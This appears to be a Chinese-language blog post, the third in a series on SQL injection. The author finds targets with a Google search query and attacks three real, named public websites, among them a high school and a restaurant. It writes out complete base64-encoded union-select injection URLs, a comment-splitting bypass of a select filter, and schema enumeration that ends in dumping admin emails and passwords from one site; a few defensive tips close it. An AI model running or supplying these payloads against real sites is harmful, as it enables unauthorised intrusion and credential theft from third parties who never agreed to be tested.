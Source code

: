 ## 计算机病毒与入侵关于SQL注入的研究（三）
### 写在前面
上次我们研究了怎样通过union进行托库，本次我们玩点真的：***利用google搜索引擎进行手动注入***

### 搜索引擎的使用
使用google搜索```inurl:.php?id=MTM=```，这里inurl指的是在url内有后面字符串的网站，后面的id=MTM=是指base64加密后的id=13。查询出来结果如下：
![third1.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third1.png)

我自己经过删选测试，选取了三个网站：
- http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSx2ZXJzaW9uKCksZGF0YWJhc2UoKSw0LDUsNiw3LDgsOSwxMCwxMSwxMiwxMywxNCwxNQ==
- http://www.thzx.net/e/pl/?classid=34&id=1373(一所高中)
- http://www.zaaffran.com/testimonials.php?id=MTM=(一家印度餐厅)

本次就对这三个网站进行破解。
先回顾一下我们上次自己研究的几个破解步骤：
- 测试能否被注入
- 通过union测表段数目
- 通过mysql函数得到数据库的名称
- 通过INFORMATION_SCHEMA查询表的名称和表内行的名称
- 获取想要的数据

***我们借助[http://www1.tc711.com/tool/BASE64.htm](http://www1.tc711.com/tool/BASE64.htm)这个base64工具进行base64加解密***

### 第一个网站的SQL注入
- 测试是否能被注入，访问[http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9Mg==](http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9Mg==)，含义是```id=13 and 1=2```，返回的结果如下图，表明是可以注入的
![third2.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third2.png)

- 通过union测表段数目，这一个就比较无聊了，我们从1到30挨个测（30以上直接放弃，要累死= - =），最后测试出来表段数目是15，访问[http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSwyLDMsNCw1LDYsNyw4LDksMTAsMTEsMTIsMTMsMTQsMTU=](http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSwyLDMsNCw1LDYsNyw4LDksMTAsMTEsMTIsMTMsMTQsMTU=)，含义是```id=13 and 1=1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15```，可以看到有九个显示位，显示位很多，就用不到concat()函数了，结果如下图：
![third3.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third3.png)

- 通过mysql函数得到数据库的名称，访问[http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSxkYXRhYmFzZSgpLDMsNCw1LDYsNyw4LDksMTAsdmVyc2lvbigpLDEyLDEzLDE0LDE1](http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSxkYXRhYmFzZSgpLDMsNCw1LDYsNyw4LDksMTAsdmVyc2lvbigpLDEyLDEzLDE0LDE1),含义是```id=13 and 1=1 union select 1,database(),3,4,5,6,7,8,9,10,version(),12,13,14,15```，我们可以看到如下图的结果，表明数据库的名称是csearch，版本是4.0.25
![third4.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third4.png)

- 通过INFORMATION_SCHEMA查询表的名称和表内行的名称，访问[http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSwyLDMsdGFibGVfbmFtZSw1LDYsNyw4LDksMTAsMTEsMTIsMTMsMTQsMTUgZnJvbSBpbmZvcm1hdGlvbl9zaGNlbWEg](http://www.comresearch.org/serviceDetails.php?id=MTMgYW5kIDE9MSB1bmlvbiBzZWxlY3QgMSwyLDMsdGFibGVfbmFtZSw1LDYsNyw4LDksMTAsMTEsMTIsMTMsMTQsMTUgZnJvbSBpbmZvcm1hdGlvbl9zaGNlbWEg)，含义是```id=13 and 1=1 union select 1,2,3,table_name,5,6,7,8,9,10,11,12,13,14,15 from information_shcema```，结果竟然是没有权限！！！
![third5.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third5.png)

由于第四步发现这个用户没有权限，我决定放弃，盲注猜表名和错误回显法的耗时较长，同时这个网站应该主要是用来搜索，我尝试了没有users表和admins表就放弃了= - =。

### 第二个网站的SQL注入
- 测试能否被注入，访问[http://www.thzx.net/e/pl/?classid=34&id=1373/*ABC*/](http://www.thzx.net/e/pl/?classid=34&id=1373/*ABC*/)发现没有问题，继续
![third6.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third6.png)

- 通过union测表段数目，访问[http://www.thzx.net/e/pl/?classid=34&id=1373/*ABC*/and/*ABC*/select/*ABC*/1,2,3,4,5](http://www.thzx.net/e/pl/?classid=34&id=1373/*ABC*/and/*ABC*/select/*ABC*/1,2,3,4,5)，惊喜地看到了360= - =，网站过滤了select
![third7.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third7.png)
我又查了几下，看到可以这样访问[http://www.thzx.net/e/pl/?classid=34&id=1373/*ABC*/and/*ABC*/s/*ABC*/e/*ABC*/l/*ABC*/e/*ABC*/c/*ABC*/t/*ABC*/1,2,3,4,5](http://www.thzx.net/e/pl/?classid=34&id=1373/*ABC*/and/*ABC*/s/*ABC*/e/*ABC*/l/*ABC*/e/*ABC*/c/*ABC*/t/*ABC*/1,2,3,4,5)，这样绕过了select封锁，然而程序一点错误回显也没有
![third8.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third8.png)
好吧，看起来没有漏洞的样子，放弃

### 第三个网站的SQL注入
- 测试能否被注入，访问[http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9Mg==](http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9Mg==)，含义是```id=13 and 1=2```，结果如下，可以发现页面没有显示，证明是可以注入的
![third9.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third9.png)

- 通过union测表段数目，从1到30挨个测试，运气不错，上来直接猜到了是7,访问[http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLDMsNCw1LDYsNw==](http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLDMsNCw1LDYsNw==)，结果如下图所示，可以看到有三个显示位
![third10.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third10.png)

- 通过mysql函数得到数据库的名称，访问[http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSxkYXRhYmFzZSgpLHZlcnNpb24oKSw0LDUsNiw3](http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSxkYXRhYmFzZSgpLHZlcnNpb24oKSw0LDUsNiw3),含义是```id=14 and 1=2 union select 1,database(),version(),4,5,6,7```，结果如下图，得到数据库的名称是zaaffran_zaaffran，数据库版本是5.5.2
![third11.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third11.png)

- 通过INFORMATION_SCHEMA查询表的名称和表内行的名称,访问[http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLHRhYmxlX25hbWUsNCw1LDYsNyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXM=](http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLHRhYmxlX25hbWUsNCw1LDYsNyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXM=),含义是```id=14 and 1=2 union select 1,2,table_name,4,5,6,7 from information_schema.tables```，可以看到五个数据表：
![third12.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third12.png)
这里只有五张表，而且都是系统表，所以我尝试了一下使用order by table_type,访问[http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLHRhYmxlX25hbWUsNCw1LDYsNyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgb3JkZXIgYnkgdGFibGVfdHlwZQ==](http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLHRhYmxlX25hbWUsNCw1LDYsNyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgb3JkZXIgYnkgdGFibGVfdHlwZQ==)，含义是```id=14 and 1=2 union select 1,2,table_name,4,5,6,7 from information_schema.tables order by table_type```
![third13.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third13.png)
可以发现报错了，我结合只有五条数据显示判断系统后面加入了limit 5这个子句，所以导致返回错误，因此访问[http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLHRhYmxlX25hbWUsNCw1LDYsNyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgb3JkZXIgYnkgMSM=](http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLHRhYmxlX25hbWUsNCw1LDYsNyBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgb3JkZXIgYnkgMSM=)，含义是```id=14 and 1=2 union select 1,2,table_name,4,5,6,7 from information_schema.tables order by 1#```，这次显示结果如下，成功了！
![third14.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third14.png)
同时我们搜索到了adminusers表这个敏感的表，我决定对这个表进行查询，访问[http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLGNvbHVtbl9uYW1lLDQsNSw2LDcgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEuY29sdW1ucyB3aGVyZSB0YWJsZV9uYW1lPSdhZG1pbnVzZXJzJyBvcmRlciBieSAxIw==](http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLGNvbHVtbl9uYW1lLDQsNSw2LDcgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEuY29sdW1ucyB3aGVyZSB0YWJsZV9uYW1lPSdhZG1pbnVzZXJzJyBvcmRlciBieSAxIw==)，含义是```14 and 1=2 union select 1,2,column_name,4,5,6,7 from information_schema.columns where table_name='adminusers' order by 1#```，可以看到如下图所有的表段
![third15.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third15.png)

- 获取想要的数据,访问[http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLFVzZXJFbWFpbCxVc2VyUGFzc3dvcmQsNSw2LDcgZnJvbSBhZG1pbnVzZXJzIw==](http://www.zaaffran.com/testimonials.php?id=MTQgYW5kIDE9MiB1bmlvbiBzZWxlY3QgMSwyLFVzZXJFbWFpbCxVc2VyUGFzc3dvcmQsNSw2LDcgZnJvbSBhZG1pbnVzZXJzIw==),含义是```14 and 1=2 union select 1,2,UserEmail,UserPassword,5,6,7 from adminusers#```,可以看到adminusers表里面的所有数据
![third16.png](http://git.oschina.net/mrbian/ComputerVirus/raw/master/third/images/third16.png)

## 总结
本次我们进行了三次对公共网站的SQL注入，第一次和第二次不是很成功，第三次好歹是拿到数据了，尝试了一下扩大战果：
```select user,password from mysql.user```，失败= - =，估计是没有权限。
select hex(load_file())的方法也是失败，毕竟mysql版本是5.5，安全级别较高，想要load_file()还是很难的。

碰上的坑：注释使用--的时候，后面要带有一个空格

关于怎样规避SQL的一些经验：可以看到第一二次注入失败，一个是因为权限问题，一个是因为Select过滤的问题，这可以给我们一些防范SQL注入的启示：
- 限制死权限，单独搞一个数据库和用户暴露给外界，把查询的范围和权限限制死，你就算可以注入也然并卵，数据没有用啊！
- 直接过滤掉union或者select，不允许传的参数里面带有这个（360的做法）
